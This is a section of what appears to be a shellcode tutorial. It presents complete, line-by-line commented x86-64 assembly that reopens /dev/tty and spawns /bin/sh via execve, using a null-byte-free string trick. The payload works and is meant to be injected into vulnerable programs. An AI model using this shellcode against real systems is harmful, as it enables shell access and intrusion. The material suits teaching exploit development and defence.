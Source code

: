 ## Final Shell

When we put everything all together, we get the following assembly code:

```
section .text ; Text section for code
global _start ; Begins execution at _start
_start:

; Close STDIN
xor rax, rax ; Clears the rax register
xor rdi, rdi ; Zero represents STDIN
mov al, 3 ; Syscall number for sys_close
syscall ; Calls sys_close(0)

; Opening "/dev/tty"
push rax ; Push a string terminator onto the stack
mov rdi, 0x7974742f7665642f ; Move "/dev/tty" (written backwards in ASCII) into rdi.
push rdi ; Push the string "/dev/tty" onto the stack.
push rsp ; Push a pointer to the string onto the stack.
pop rdi ; rdi now has a pointer to the string "/dev/tty"
        ; These last two lines are equivalent to doing "mov rdi, rsp"
push rax ; Push a NULL byte onto the stack
pop rsi ; Make rsi NULL
        ; These last two lines are equivalent to doing "mov rsi, 0"
mov si, 0x2702 ; Flag for O_RDWR
mov al, 0x2 ; Syscall for sys_open
syscall ; calls sys_open("/dev/tty", O_RDWR)

; Get 59 in rax
xor rax, rax ; Clear the rax register
mov al, 59 ; Syscall for execve

; Push a string terminator onto the stack
xor rbx, rbx ; Sets rbx to NULL
push rbx ; Pushes a NULL byte onto the stack

; Push /bin/sh onto the stack, and get a pointer to it in rdi
mov ebx, 0x68732f6e ; Moves "n/sh" (written backwards in ASCII) into lower-end bits of rbx
shl rbx, 16 ; Pushes "n/sh" to the left to make more room for 2 more bytes in rbx
mov bx, 0x6962 ; Move "bi" into lower-end bits of rbx. rbx is now equal to "bin/sh" written backwards
shl rbx, 16 ; Makes 2 extra bytes of room in rbx
mov bh, 0x2f ; "Moves /" into rbx. rbx is now equal to "\x00/bin/sh" written backwards
             ; Note that we are moving 0x2f into bh, not bl. So there is a NULL byte at the beginning
push rbx ; Push the string onto the stack
mov rdi, rsp ; Get a pointer to the string "\x00/bin/sh" in rdi
add rdi, 1 ; Add one to rdi, which will get rid of the NULL byte at the beginning.
           ; rdi now points to a string that equals "/bin/sh"

; Make these values NULL
xor rsi, rsi
xor rdx, rdx

; Call execve()
syscall
```
